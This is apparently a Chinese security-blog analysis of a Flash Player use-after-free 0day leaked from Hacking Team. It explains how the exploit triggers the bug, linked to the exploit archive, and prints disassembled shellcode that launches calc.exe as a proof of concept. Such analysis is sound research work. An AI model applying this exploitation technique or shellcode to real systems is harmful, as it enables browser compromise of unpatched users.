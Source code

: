 # Hacking Team 新 Flash 0day分析

0x00 背景
=======

* * *

继前几天从Hacking Team中找到一个flash 0day，Adobe发布修复补丁之后，又被人在邮件中找到了一个flash 0day。

readme中描述，影响范围为`Adobe Flash Player 9+ 32/64-bit (since Jun 2006)`。

Windows中的IE，OS X中的firefox均可直接执行计算器。

0x01 漏洞分析
=========

* * *

漏洞文件[http://krash.in/flashnew0day.zip](http://krash.in/flashnew0day.zip)，是从Hacking Team邮件中找到Flash 0day，简单看一下该漏洞的利用方法。

点击Run Calc之后，该程序会调用Check64()函数，这个函数是该漏洞的一个简化版，程序用32、64不同的内存结构判断当前是32位进程还是64位。程序在最开始重载了`MyClass`的`valueOf`

![enter image description here](http://drops.javaweb.org/uploads/images/ef7745e091e8052b9d4bbbb27532f7f085bfc734.jpg)

而`opeaqueBackground`属性接受数值型，故如果传入一个类，会显示调用该类的`valueOf`一次，这个也是之前的一个UAF用的一个技巧。所以，在第一次走到下列语句设置`opaqueBackground`的时候走到了`valueOf1`：

![enter image description here](http://drops.javaweb.org/uploads/images/70bf44917bd6af27ce662ed7020dc53a04e80153.jpg)

在`valueOf1`中，攻击者使用`recreateTextLine`重用`_tl`这个`textLine`，随之，原始`TextBlock（_tb）`中的内部`TextLine`对象被释放。

![enter image description here](http://drops.javaweb.org/uploads/images/5998ced2ac2a23a36ca73878a52e212946fc4b17.jpg)

----->

![enter image description here](http://drops.javaweb.org/uploads/images/eda741f1e4e0758964610c13ed5af28be59e4df7.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/0f49856348def703ec41f5d4523b33901295c780.jpg)

然后，在valueOf中使用

![enter image description here](http://drops.javaweb.org/uploads/images/c8c6a3428463e49487baffc3a79e938be80a3e2a.jpg)

占住这片被释放的内存，1016是`TextLine`对象在内存中的大小，1344相当于多分配了一块内存（1016/4-8）。函数`return 1`，写入到这片内存中。

`valueOf`返回后，程序搜索`_ar`，找到值为1的一项，根据该项的位置判断是32还是64位系统：

![enter image description here](http://drops.javaweb.org/uploads/images/ddc91dba6803135925d1a3ff41f83aefa6ef6c19.jpg)

随后，程序调用`TryExpl()`，这里使用了类似的方式：

先分配特殊长度的Vector和TextLine留待后用，接着将`MyClass`的`valueOf`也设置为`valueOf2`：

![enter image description here](http://drops.javaweb.org/uploads/images/75715bc2b1a79e58e0edc6327279d0c062a76c30.jpg)

然后设置`opaqueBackground`属性，`_mc`是`MyClass`的实例，因此触发`valueOf2`：

![enter image description here](http://drops.javaweb.org/uploads/images/6e9760f3ad30cd8d8800882bac95609baffd2782.jpg)

在`valueOf2`中使用和之前一样的方式给`_ar`的所有元素全部做一次内存破坏，`vLen`的值是98。

![enter image description here](http://drops.javaweb.org/uploads/images/0a964fb6c1492f9b39dfb78cff1a1ebe8e218079.jpg)

返回后，程序在`_ar`中搜索被破坏的块，并设置下一个`Vector`的`Length`为`0x40000000`，后续就是经典的`Vector`操作了。

![enter image description here](http://drops.javaweb.org/uploads/images/54db7755e88469917c6510ba44a439859040c4e8.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/a05dc9cc16b43119b8a0c75e760b136e06ea1533.jpg)

在`IE11+Flash Player 17`中，跟踪可发现`length`被覆盖后的`Vector`：

![enter image description here](http://drops.javaweb.org/uploads/images/a9e2f6b2a760860eeb393d482847ec38f1ad1720.jpg)

0x02 使用的shellcode
=================

* * *

和之前一样，使用`CreateProcessA`调用calc

```
0:008> uf 0x603b1b8
Flow analysis was incomplete, some code may be missing
0603b1b8 55              push    ebp
0603b1b9 8bec            mov     ebp,esp
0603b1bb 83c4ac          add     esp,0FFFFFFACh
0603b1be 53              push    ebx
0603b1bf 51              push    ecx
0603b1c0 57              push    edi
0603b1c1 648b0530000000  mov     eax,dword ptr fs:[30h]
0603b1c8 8b400c          mov     eax,dword ptr [eax+0Ch]
0603b1cb 8b400c          mov     eax,dword ptr [eax+0Ch]
0603b1ce 8b00            mov     eax,dword ptr [eax]
0603b1d0 8b00            mov     eax,dword ptr [eax]
0603b1d2 8b5818          mov     ebx,dword ptr [eax+18h]
0603b1d5 89d8            mov     eax,ebx
0603b1d7 03403c          add     eax,dword ptr [eax+3Ch]
0603b1da 8b5078          mov     edx,dword ptr [eax+78h]
0603b1dd 01da            add     edx,ebx
0603b1df 8b7a20          mov     edi,dword ptr [edx+20h]
0603b1e2 01df            add     edi,ebx
0603b1e4 31c9            xor     ecx,ecx

0603b1e6 8b07            mov     eax,dword ptr [edi]
0603b1e8 01d8            add     eax,ebx
0603b1ea 813843726561    cmp     dword ptr [eax],61657243h ; Crea
0603b1f0 751c            jne     0603b20e

0603b1f2 81780b73734100  cmp     dword ptr [eax+0Bh],offset IEXPLORE!api-ms-win-downlevel-shell32-l1-1-0_NULL_THUNK_DATA_DLA <PERF> (IEXPLORE+0x37373) (00417373) ;ssA   (=>CreateProcessA)
0603b1f9 7513            jne     0603b20e

0603b1fb 8b4224          mov     eax,dword ptr [edx+24h]
0603b1fe 01d8            add     eax,ebx
0603b200 0fb70448        movzx   eax,word ptr [eax+ecx*2]
0603b204 8b521c          mov     edx,dword ptr [edx+1Ch]
0603b207 01da            add     edx,ebx
0603b209 031c82          add     ebx,dword ptr [edx+eax*4]
0603b20c eb09            jmp     0603b217

0603b20e 83c704          add     edi,4
0603b211 41              inc     ecx
0603b212 3b4a18          cmp     ecx,dword ptr [edx+18h]
0603b215 7ccf            jl      0603b1e6

0603b217 8d45f0          lea     eax,[ebp-10h]
0603b21a 50              push    eax
0603b21b 8d7dac          lea     edi,[ebp-54h]
0603b21e 57              push    edi
0603b21f 31c0            xor     eax,eax
0603b221 b911000000      mov     ecx,11h
0603b226 f3ab            rep stos dword ptr es:[edi]
0603b228 c745ac44000000  mov     dword ptr [ebp-54h],44h
0603b22f 50              push    eax
0603b230 50              push    eax
0603b231 50              push    eax
0603b232 50              push    eax
0603b233 50              push    eax
0603b234 50              push    eax
0603b235 e809000000      call    0603b243
0603b23a 63616c          arpl    word ptr [ecx+6Ch],sp
0603b23d 632e            arpl    word ptr [esi],bp
0603b23f 657865          js      0603b2a7

0603b242 0050ff          add     byte ptr [eax-1],dl
0603b245 d35f59          rcr     dword ptr [edi+59h],cl
0603b248 5b              pop     ebx
0603b249 c1e003          shl     eax,3
0603b24c 83c006          add     eax,6
0603b24f c9              leave
0603b250 c3              ret

```

![enter image description here](http://drops.javaweb.org/uploads/images/51f59d5c81d358dffc2f0916cafcaad29b0c1eb5.jpg)

0x03 效果
=======

* * *

![enter image description here](http://drops.javaweb.org/uploads/images/e58cd8b101dd420bfa12cf68f0d00c681aa746ce.jpg)

在IE11中成功地启动了`calc.exe`

桌面截图：

![enter image description here](http://drops.javaweb.org/uploads/images/80e4d445695fe403bb3bfbf7bb8eaf9a71b0d4b1.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f67f5cc85aa1fe91b882685ebd1bac51dcef7db6.jpg)